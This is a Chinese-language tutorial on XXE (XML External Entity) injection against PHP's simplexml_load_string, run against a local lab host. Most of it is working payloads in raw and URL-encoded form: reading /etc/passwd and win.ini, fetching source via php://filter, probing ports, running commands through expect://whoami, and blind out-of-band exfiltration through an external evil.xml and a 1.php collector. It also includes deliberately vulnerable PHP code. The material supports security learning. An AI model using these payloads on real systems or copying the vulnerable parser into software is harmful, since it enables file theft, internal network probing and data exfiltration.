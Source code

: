XXE Injection即XML External Entity Injection,也就是XML外部实体注入攻击.漏洞是在对非安全的外部实体数据进⾏处理时引发的安全问题。

libxml<libxml2.9 不支持外部实体

## 1、内部实体

在程序用的比较多就是内部实体

```php
<!ENTITY 实体名称 "实体的值">
<?xml version="1.0" encoding="ISO-8859-1"?>
<note>
   	<to>George</to>
    <from>John</from>
    <heading>Reminder</heading>
    <body>Don't forget the meeting!</body>
</note>
```

## 2、外部实体

外部实体可支持http、file等协议 不同程序支持的协议也不同。

```php
<!ENTITY 实体名称 SYSTEM "URI/URL">
```

外部实体注入攻击的常见

```php+HTML
<?php
$string_xml = '<?xml version="1.0" encoding="utf-8"?><note><to>George</to><from>John</from><heading>Reminder</heading><body>xml实体注入</body></note>';
$xml = isset($_GET['xml'])?$_GET['xml']:$string_xml;
$data = simplexml_load_string($xml);
echo  '<meta charset="UTF-8">';
print_r($data);
?>
```

## 3、有回显

xxe.php

```php
<?php
$string_xml = '<?xml version="1.0" encoding="utf-8"?><note><to>George</to><from>John</from><heading>Reminder</heading><body>xml实体注入</body></note>';
$xml = isset($_GET['xml'])?$_GET['xml']:$string_xml;
$data = simplexml_load_string($xml);
echo  '<meta charset="UTF-8">';
print_r($data);
?>
```

xxe02.php

```php
<?php
$xml = $_GET['xml'];
$data = @simplexml_load_string($xml);
```

任意读取文件

```php
<?xml version="1.0"?><!DOCTYPE  a  [<!ENTITY b SYSTEM "file:///etc/passwd">]><c>&b;</c>
    
<?xml version="1.0"?><!DOCTYPE  a  [<!ENTITY b SYSTEM "file:///C:/Windows/win.ini">]><c>&b;</c>
```

浏览器

```http
http://192.168.31.125/xxe.php?xml=%3C%3Fxml%20version%3D%221.0%22%3F%3E%3C%21DOCTYPE%20%20a%20%20%5B%3C%21ENTITY%20b%20SYSTEM%20%22file%3A%2f%2f%2fC%3A%2fWindows%2fwin.ini%22%3E%5D%3E%3Cc%3E%26b%3B%3C%2fc%3E
```

![image-20210416232130842](../acess/image-20210416232130842.png)

使用是要进行编码

在php里还可以利用伪协议读取文件

```php
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xdsec [
<!ELEMENT methodname ANY >
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=phpinfo.php" >]>
<methodcall>
<methodname>&xxe;</methodname>
</methodcall>
```

```http
http://192.168.31.125/xxe.php?xml=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22utf-8%22%3F%3E%20%0A%3C%21DOCTYPE%20xdsec%20%5B%0A%3C%21ELEMENT%20methodname%20ANY%20%3E%0A%3C%21ENTITY%20xxe%20SYSTEM%20%22php%3A%2f%2ffilter%2fread%3Dconvert.base64-encode%2fresource%3Dphpinfo.php%22%20%3E%5D%3E%0A%3Cmethodcall%3E%0A%3Cmethodname%3E%26xxe%3B%3C%2fmethodname%3E%0A%3C%2fmethodcall%3E%0A
```

 ![image-20210416232404488](../acess/image-20210416232404488.png)

扫描端口 

```php
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "http://192.168.31.125:80">
]>
<abc>&test;</abc>
```

```http
http://192.168.31.125/xxe.php?xml=%3C%3Fxml%20version%3D%221.0%22%3F%3E%0A%3C%21DOCTYPE%20ANY%20%5B%0A%3C%21ENTITY%20test%20SYSTEM%20%22http%3A%2f%2f192.168.31.125%3A80%22%3E%0A%5D%3E%0A%3Cabc%3E%26test%3B%3C%2fabc%3E%0A
```

![image-20210416234528521](../acess/image-20210416234528521.png)

执行命令

若开启expect扩展

```http
<?xml version="1.0"?>
<!DOCTYPE ANY [
<!ENTITY test SYSTEM "expect://whoami">
]>
<abc>&test;</abc>
```

```php
http://192.168.31.125/xxe.php?xml=%3c%3fxml%20version%3d%221.0%22%3f%3e%0a%3c!doctype%20any%20%5b%0a%3c!entity%20test%20system%20%22expect%3a%2f%2fwhoami%22%3e%0a%5d%3e%0a%3cabc%3e%26test%3b%3c%2fabc%3e
```

## 4、无回显

称为 blind xxe 可以使用外带数据通道 提取数据

```php
<?xml version="1.0"?>
<!DOCTYPE ANY[
<!ENTITY % file SYSTEM "file:///C:/1.txt">
<!ENTITY % remote SYSTEM "http://192.168.31.100/evil.xml">
%remote;
%all;
]>
<root>&send;</root>
```

```http
http://192.168.31.125/xxe02.php?xml=%3C%3Fxml%20version%3D%221.0%22%3F%3E%0A%3C%21DOCTYPE%20ANY%5B%0A%3C%21ENTITY%20%25%20file%20SYSTEM%20%22file%3A%2f%2f%2fC%3A%2f1.txt%22%3E%0A%3C%21ENTITY%20%25%20remote%20SYSTEM%20%22http%3A%2f%2f192.168.31.100%2fevil.xml%22%3E%0A%25remote%3B%0A%25all%3B%0A%5D%3E%0A%3Croot%3E%26send%3B%3C%2froot%3E%0A
```

evil.xml 文件内容

```html
<!ENTITY % all "<!ENTITY send SYSTEM 'http://192.168.31.100/1.php?file=%file;'>">
```

1.php

```php
<?php file_put_contents("1.txt", $_GET['file']); ?>
```


![image-20210417003710128](../acess/image-20210417003710128.png)
